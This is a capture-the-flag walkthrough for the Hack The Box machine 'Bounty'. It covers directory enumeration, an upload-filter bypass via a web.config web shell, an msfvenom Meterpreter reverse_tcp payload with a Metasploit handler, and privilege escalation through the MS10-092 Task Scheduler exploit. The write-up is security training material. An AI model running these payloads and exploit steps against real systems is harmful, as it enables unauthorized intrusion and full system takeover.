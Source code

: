 # Bounty

[![Bounty](https://secure.gravatar.com/avatar/77c9ae29c6d9f3add2af21410c1090d5.jpg?s=150&d=retro&r=x)](https://www.hackthebox.eu/home/machines/profile/142)

## User
### Nmap
We begin by running Nmap.
```sh
$ nmap -T4 -A -v 10.10.10.93
```
As we can see port 80 is open,but the website is empty.

### Dirb
We run dirb to get hidden directories.
```sh
$ dirb http://10.10.10.93
```
You should have found the **'uploadedfiles'** directory, but still nothing you can do.
As we previously saw from nmap scan, we are dealing with an IIS server. So we will use dirb's extension feature to search for arbitrary file extensions that are used by the IIS server until we find the right one.

```sh
$ dirb http://10.10.10.93/ -X .aspx
```

Running the above command we find the **'transfer.aspx'** file, where we can upload files. 
However uploading an **.aspx** reverse shell doesn't seem to work. By viewing page source code, we can see that a function named **'ValidateFile()'** is called and it is blacklisting file extensions. So we have to find the right extension to exploit this. 
With the information from the message we get when we try to upload a file with the wrong extension and a little google search, we come up with [this](/Bounty/web.config) structure of file.

- sources: 
-- https://soroush.secproject.com/blog/tag/unrestricted-file-upload/
-- https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmd.asp

By uploading the [web.config](/Bounty/web.config) file, we get the pleasant message **'File uploaded successfully.'**. 
Next we go to **'uploadedfiles/web.config'** where we should get a field to execute system commands, along with some system information.

**Careful**! We have changed a line in the previous script so we get into a word-writable Windows directory, otherwise we wouldn't have access.
- directory changed:
-- C:\ 
-- C:\windows\system32\spool\drivers\color\ 

**Warning!** The file gets deleted after a few seconds. So act quickly.

### Getting user
As long as we have a basic RCE, getting user is a piece of cake.
```sh
$ more C:\Users\merlin\Desktop\user.txt
```

## Root
### Priv esc
Now we can upload anything we want to the remote machine via **'transfer.aspx'**, by simply appending the **.config** extension to the file. The uploaded files can then be found in the directory **'C:\inetpub\wwwroot\uploadedfiles\'**

### Msfvenom payload
We create a payload with msfvenom and we upload it to remote machine.
```sh
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f exe > shell.exe
```
**Careful**! The payload must be **x64** architecture, otherwise this is not going to work. Once we upload the payload copy it in the users Desktop.
```sh
$ copy /B C:\inetpub\wwwroot\uploadedfiles\shell.exe.config C:\Users\merlin\Desktop\shell.exe
```

### Msfconsole
Next step is to open msfconsole and set it up.
```sh
$ msfconsole
$ use exploit/multi/handler
$ set payload windows/x64/meterpreter/reverse_tcp
$ set LHOST 10.10.10.10
$ set LPOST 4444
$ exploit -j
```
Back in the remote machine we execute the **'shell.exe'** file we uploaded by running the following command.
```sh
$ start shell.exe
```

### Getting root

We now have an open session running in the background. After hours (for me) of enumeration and again some google search, we can see that the remote system is vulnerable in the **Task Scheduler** and we can use this to elevate our privilages.
- source:
-- https://docs.microsoft.com/en-us/security-updates/securitybulletins/2010/ms10-092

In the same msfconsole window, while we already have an open session, we put it in the background by typing:

```
background
```

And we make use of a windows exploit suggester by assigning it the already open meterpreter session.

```sh
$ use post/multi/recon/local_exploit_suggester
$ sessions
$ set session <session number>
```

The exploit **'exploit/windows/local/ms10_092_schelevator'** seems to be promising.
- CVE:
-- https://www.exploit-db.com/exploits/15589/

So we make use of it on the current opened session to see if it works.

```sh
$ use exploit/windows/local/ms10_092_schelevator
$ set session <session number>
$ set payload windows/x64/meterpreter/reverse_tcp
$ set LHOST <local ip>
$ set LPORT 4444
$ exploit
```

OK. We got a new session running where if we type the bellow command, we will see we have Administrator privileges.
```sh
$ sysinfo
```

Final task, let's get root!!!
```sh
$ more C:\Users\Administrator\Desktop\root.txt
```

[![bertolis](https://www.hackthebox.eu/badge/image/27897.png)](https://www.hackthebox.eu/home/users/profile/27897)
